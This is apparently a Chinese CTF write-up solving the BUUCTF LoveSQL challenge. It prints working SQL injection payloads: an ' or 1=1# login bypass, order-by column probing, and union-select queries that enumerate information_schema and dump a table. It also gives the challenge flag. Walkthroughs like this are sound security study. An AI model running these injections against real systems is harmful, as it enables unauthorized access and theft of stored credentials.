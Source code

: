 # T7 lovesql

> 题目 BUUCTF [极客大挑战 2019]LoveSQL

__0x00 审题__

打开图片，（炫酷）hacker图，之前也有个这样的题直接万能密码做了，没注意是不是同一官方，现在看来这是个连续剧，一个登录页面，盲猜用户名admin，密码直接万能密码

输入：
```
admin
' or 1=1#
```
成功进入，回显为：

```
Login Success!
Hello admin！
Your password is 'c2a1a931c9a47c71c63217a29d372e44'
```

然后呐

__0x01 解题__

> 刚刚开始做MySQL注入的题，感觉应该进行注入点检测,一个[借鉴](https://blog.csdn.net/m0_46201544/article/details/125241467)

```
1. 判断是否有注入点（判断是否未严格校验）

    * 可控参数的改变是否能影响页面的显示效果
    * 输入的 SQL 语句是否能报错（通过数据库的报错，我们能 猜测 数据库的查询语句是如何拼接的）
    * 输入的 SQL 语句能否不报错（其实就是检查我们的语句能否成功闭合）

2. 什么类型的注入
3. 语句是否能被恶意修改
4. 是否能够成功执行
5. 通过注入获取我们需要的数据
```

```
select database();  #查看当前库名;

select table_name from information_schema.tables where table_schema=database()  ;  #查看当前库下的表名

select column_name from information_schema.columns where table_schema=database() and table_name='user';  #查询列名
```

1. 在用户名处检测是否有注点

```
?username=1' order by 1%23&password=123
```

> 一个个试都没报错，直到4

```
?username=1' order by 4%23&password=ads
```
回显：

```
Unknown column '4' in 'order clause'
```

2. 判断三个字段，接下来寻找注点（有经验的大佬都能猜出字段为：id，username，password）
```
?username=admin&password=1231' union select 1,2,3%23
```

回显:

```
Hello 2！
Your password is '3'
```
> 含义：可以看到2、3有回显，2代表用户名，3为密码

3. 测试表

```msql
1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#
```

回显：
```
Hello 2！
Your password is 'geekuser,l0ve1ysq1'
```

> 到此已经找到俩个表，并且感觉东西应该藏在第二个表内

3.查第二个表的字段

```mysql
1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='l0ve1ysq1'#
```

回显：

```
Hello 2！
Your password is 'id,username,password'
```

4. 查列中内容

```
1' union select 1,2,group_concat(id,username,password) from l0ve1ysq1#
```

__0x02 答案__

```
flag{9775a8bc-b570-4351-b108-8894597c35ae}
```

__0x03 总结__

之前一直在看代码审计，很少做的就是注入和一句话木马，打算加强一下
